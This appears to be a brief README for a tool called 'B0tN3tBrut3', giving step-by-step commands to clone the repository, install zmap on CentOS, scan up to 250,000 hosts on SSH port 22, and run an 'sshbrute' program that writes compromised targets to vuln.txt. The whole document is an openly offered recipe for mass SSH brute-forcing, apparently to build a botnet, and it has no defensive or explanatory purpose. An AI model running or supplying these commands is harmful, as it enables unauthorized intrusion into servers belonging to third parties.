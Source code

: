 

  (CentOS 6.9)

 
- git clone https://github.com/YourAnonXelj/B0tN3tBrut3.git



  
  1- sh CentOS_zmap_auto_install.sh

  2- zmap -p22 -o mfu.txt -N 250000     //-// not mfu2.txt or mfulol.txt dont change

  3- chmod 777 *

  4-   ./sshbrute 2500 

         Result = vuln.txt

<img src="https://raw.githubusercontent.com/YourAnonXelj/B0tN3tBrut3/master/lul2.png">
